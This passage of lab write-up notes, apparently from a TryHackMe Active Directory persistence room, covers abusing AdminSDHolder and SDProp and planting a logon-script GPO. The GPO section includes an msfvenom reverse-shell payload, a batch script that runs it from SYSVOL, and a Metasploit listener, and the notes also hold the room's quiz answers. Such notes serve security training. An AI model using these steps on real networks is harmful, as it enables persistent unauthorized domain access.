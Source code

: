 ```powershell
#open powershell session
cd C:\Tools

Import-Module .\Invoke-ADSDPropagation.ps1

Invoke-ADSDPropagation
#SDProp is manually started using script
```

* Now, we can review security permissions of a Protected Group like Domain Admins - our user has full control over the group.

* However, we are not a member of the Domain Admins group; but we have full control over it so we can add our low-priv user as a member if needed.

```markdown
1. What AD group's ACLs are used as a template for the ACLs of all Protected Groups? - AdminSDHolder

2. What AD service updates the ACLs of all Protected Groups to match that of the template? - SDProp

3. What ACL permission allows the user to perform any action on the AD object? - Full Control
```

## Persistence through GPOs

* Common GPO persistence techniques:

  * Restricted Group Membership
  * Logon Script Deployment

* We can create a GPO that is linked to the Admins OU, which allows us to get a shell on a host every time one of them authenticates to a host.

```shell
#in attacker machine

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=persistad lport=4445 -f exe > sv_shell.exe
#create payload

#windows allows executing Batch or Powershell scripts through logon GPO

#create Batch script for exploit
echo "copy \\za.tryhackme.loc\sysvol\za.tryhackme.loc\scripts\sv_shell.exe C:\tmp\sv_shell.exe && timeout /t 20 && C:\tmp\sv_shell.exe" > sv_script.bat
#this script first copies the binary from SYSVOL directory to local machine
#then waits 20 seconds before executing binary

#use scp and Admin creds to copy both scripts to SYSVOL directory

scp sv_shell.exe za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/

scp sv_script.bat za\\Administrator@thmdc.za.tryhackme.loc:C:/Windows/SYSVOL/sysvol/za.tryhackme.loc/scripts/

#setup listener
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST persistad; set LPORT 4445;exploit"

#now we can rdp into THMWRK1
#and inject Administrator creds into runas
#we can open MMC as Administrator now
```
